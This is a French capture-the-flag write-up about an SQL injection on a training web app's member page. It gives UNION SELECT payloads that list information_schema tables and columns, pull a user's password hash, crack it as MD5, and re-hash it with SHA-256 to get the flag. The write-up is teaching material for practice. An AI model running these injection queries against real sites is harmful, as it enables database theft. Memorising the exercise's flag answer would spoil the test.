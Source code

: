 `ip`/index.php?page=member

Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression précédente. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:


table_schema: Member_Sql_Injection
table_name: users

`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
table_name: users
column_name: user_id
column_name: first_name
column_name: last_name
column_name: town
column_name: country
column_name: planet
column_name: Commentaire
column_name: countersign  

Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT last_name, countersign FROM Member_Sql_Injection.users`
Nous obtenons pour l'utilisateur GetThe Flag :
```
user_id : 5
first_name : Flag
last_name : GetThe
town : 42
country : 42
planet : 42
Commentaire : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28
```
En suivant les recommandations du commentaire, nous obtenons:  
*5ff9d0165b4f92b14994e5c685cdce28* = *FortyTwo* (md5)
Cryptons ensuite fortytwo (*lower all the char*) en sha256, pour obtenir le flag : *10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5*